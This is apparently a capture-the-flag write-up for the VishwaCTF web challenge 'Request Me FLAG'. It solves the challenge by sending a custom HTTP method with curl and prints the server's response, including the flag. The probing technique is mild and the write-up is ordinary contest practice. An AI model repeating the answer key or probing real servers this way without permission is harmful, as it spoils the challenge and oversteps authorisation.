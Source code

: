 ## Request Me FLAG

![img](https://i.ibb.co/17qwNqG/image.png)

### Solution:

The challenge name itself contains the hint. `Request Me FLAG` means just change Request method `GET` to `FLAG` using burpsuite or curl.

```
$ curl -I https://r3qu35t-m3-fl4g.vishwactf.com -X FLAG
```
```
HTTP/1.1 200 OK
date: Mon, 21 Mar 2022 09:55:32 GMT
server: Apache/2.4.37 (Red Hat Enterprise Linux) OpenSSL/1.1.1k
flag: VishwaCTF{404_1s_ju57_4n_i11u5ion}
content-length: 0
content-type: text/html; charset=UTF-8
```
